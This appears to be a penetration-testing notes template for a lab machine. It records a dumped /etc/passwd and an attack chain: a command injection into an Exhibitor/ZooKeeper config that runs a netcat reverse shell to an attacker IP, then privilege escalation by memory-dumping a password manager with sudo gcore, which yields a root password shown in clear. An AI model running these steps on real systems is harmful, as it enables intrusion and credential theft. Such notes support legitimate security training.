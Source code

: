 |                                                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                                                                                          |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 📌 IP                                                                                                                                                                                                                                                                                                    | 📦 Name                                                                                                                                                                                                                                                                                                  |
|                                                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                                                                                          |
| 🐙 Services                                                                                                                                                                                                                                                                                              |                                                                                                                                                                                                                                                                                                          |
|                                                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                                                                                          |
| 🗺[Ports](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={36B49D4F-D13A-4B86-A54D-59611CB898E9}&FF&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)       | 🗃[SMB](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&4B&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)         |
| 🕸[Web](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&39&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)         | 💾[FTP](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&53&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)         |
| 🧩[Credentials](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&42&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one) | 🎯[Other](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&5B&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)       |
| 👣[Steps](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&7F&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)       | 💰 [Proof/Loot](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={631DB266-6646-4C3A-9778-91556803DF95}&85&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one) |

| 👁️ NMAP scan output |
| -------------------- |
|                      |

| 🕸 Web                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 🧩 Credentials                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 🗃  SMB                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 💾 FTP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 🎯 Other                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| root:x:0:0:root:/root:/bin/bash<br><br>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br><br>bin:x:2:2:bin:/bin:/usr/sbin/nologin<br><br>sys:x:3:3:sys:/dev:/usr/sbin/nologin<br><br>sync:x:4:65534:sync:/bin:/bin/sync<br><br>games:x:5:60:games:/usr/games:/usr/sbin/nologin<br><br>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br><br>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br><br>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br><br>[news:x:9:9:news:/var/spool/news:/usr/sbin/nologin](news:x:9:9:news:/var/spool/news:/usr/sbin/nologin)<br><br>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br><br>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br><br>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br><br>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br><br>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br><br>irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br><br>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br><br>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br><br>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br><br>systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin<br><br>systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin<br><br>systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin<br><br>messagebus:x:104:110::/nonexistent:/usr/sbin/nologin<br><br>dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin<br><br>usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin<br><br>rtkit:x:107:111:RealtimeKit,,,:/proc:/usr/sbin/nologin<br><br>pulse:x:108:114:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin<br><br>speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false<br><br>avahi:x:110:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin<br><br>saned:x:111:118::/var/lib/saned:/usr/sbin/nologin<br><br>lightdm:x:112:119:Light Display Manager:/var/lib/lightdm:/bin/false<br><br>systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin<br><br>sshd:x:113:65534::/run/sshd:/usr/sbin/nologin<br><br>colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin<br><br>charles:x:1000:1000::/home/charles:/bin/bash |

|                                                                                                                                                                                          |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 👣 Steps                                                                                                                                                                                 |
| [http://192.168.226.98:8080/exhibitor/v1/ui/index.html](http://192.168.226.98:8080/exhibitor/v1/ui/index.html)                                                                           |
| ZooKeeper exploit [https://talosintelligence.com/vulnerability_reports/TALOS-2019-0790](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0790)  or exploit-db/searchsploit |
| export JAVA_OPTS="-Xms1000m -Xmx1000m"<br><br>$(/bin/nc -e /bin/sh 192.168.45.187 4444 &)                                                                                                |
| Once inside grab charles' local.txt                                                                                                                                                      |
| sudo -l reveals /usr/bin/gcore                                                                                                                                                           |
| ps -aux reveals password manager                                                                                                                                                         |
| sudo gcore -o out 494 to dump pass manager memory                                                                                                                                        |
| strings out.494 reveals root pass -ClogKingpinInning731                                                                                                                                  |
| su root                                                                                                                                                                                  |
| cat /roof/proof.txt                                                                                                                                                                      |
|                                                                                                                                                                                          |


|     | <div style="min-width:500px">💰 Proof / Loot</div>                                           |                                                           |
| --- | -------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
|     | cat proof.txt; whoami; hostname; ifconfig<br><br>hostname && whoami && cat proof.txt && ip a | hostname && whoami.exe && type proof.txt && ipconfig /all |
|     |                                                                                              |                                                           |

|       | <div style="min-width:500px">🎌 Flag</div> | 👨‍💻 Screenshot |
| ----- | ------------------------------------------ | ---------------- |
| local |                                            |                  |
| proof |                                            |                  |